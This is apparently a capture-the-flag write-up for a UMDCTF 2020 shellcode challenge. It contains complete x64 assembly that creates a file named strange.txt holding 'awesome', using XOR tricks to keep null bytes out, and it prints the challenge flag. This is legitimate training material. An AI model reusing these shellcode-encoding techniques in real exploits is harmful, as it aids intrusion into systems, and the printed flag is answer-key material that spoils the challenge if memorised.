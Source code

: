 
## shellcodia2 (600pt)
### Description

> Welcome back to shellcodia! You know the drill. Simply connect, submit your shellcode in binary form, and if  you've completed the challenge then a flag will return. This challenge  requires you to create a file named `strange.txt` and put the string `awesome` inside. Now, a few things to remember, these are x64 machines so don't think  you can sneak by with 32bit shellcode. Additionally, the environment  assumes nothing about the shellcode you give it. It's highly unlikely  that if you break the environment, even if you accomplished the goal,  you will get the flag. 
>
> Submit your shellcode to: `157.245.88.100:7779` Good luck! 
>
> Author: `quantumite (BlueStar)` 
>
> (Note: flag is in `UMDCTF{}` format)

### Analysis

Goal: create a file named `strange.txt` and put the string `awesome` inside.

We can use `syscall` to finish it.

```nasm
rax = SYS_creat("strange.txt",0777);
SYS_write(rax, "awesome" ,7);
```

### Solution

```nasm
push 0x1010101 ^ 0x747874
xor dword ptr [rsp], 0x1010101
mov rax, 0x2e65676e61727473
push rax
mov rdi, rsp
mov rsi, 0x1ff
/* call creat() */
mov rax, SYS_creat /* 0x55 */
syscall

mov rdi, rax   /* fd */

mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x656d6f73657761
xor [rsp], rax
mov rsi, rsp
mov rdx, 0x7
/* call write() */
mov rax, SYS_write /* 1 */
syscall

/* stack balance*/
pop rcx
pop rcx
pop rcx

ret
```

> There is one thing to note in writing shellcode, stack should be **balanced** before `ret` 

> flag: UMDCTF{uu_rr_ G3tt1nG_g00d_w1tH_Th1s_$h3llc0de_stUff}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/shellcode2) 



